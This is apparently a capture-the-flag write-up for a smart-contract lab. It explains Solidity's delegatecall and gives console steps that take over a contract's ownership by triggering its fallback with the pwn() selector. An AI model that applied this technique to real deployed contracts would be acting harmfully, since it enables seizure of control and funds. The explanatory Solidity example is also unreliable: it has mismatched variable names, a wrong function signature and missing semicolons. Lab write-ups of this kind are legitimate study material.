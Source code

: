 "Things that might help" alludes to alludes to `delegatecall`. What `delegatecall` (a lower level function) allows us to do, is we can call another contract's function while retaining our calling function's context.

Example:
```javascript
contract A {
    string name = "beef";
    function updateName (string _newName) public payable { 
        name = newName; 
        }
}

contract B {
    string name = "el stupido"
    
    // contract needs to be the address of contract A
    function updateName(address _contract) public payable {
        string compliment = "el inteligente"
        // if we run this, name is now "el inteligente"
        (bool success, bytes memory data) = _contract.delegatecall(
            abi.encodeWithSignature("setVars(uint256)", compliment)
        );
    }
}
```

## Solution
1. We grab the method that we're going to want to `delegatecall` (it's the one called `pwn` - duh)
```javascript 
> var methodId = web3.sha3('pwn()').substring(0,10);
```
2. Then we can see that our contract's fallback function, if triggered, will try to call a method from the `Delegate` contract. This method is the payload of the `delegatecall` (`msg.data`). So, we trigger this fallback with the `methodId` from step 1.
```javascript
> contract.sendTransaction({ data: methodId })
```
3. Finally, check ownership
```javascript
await contract.owner()
```
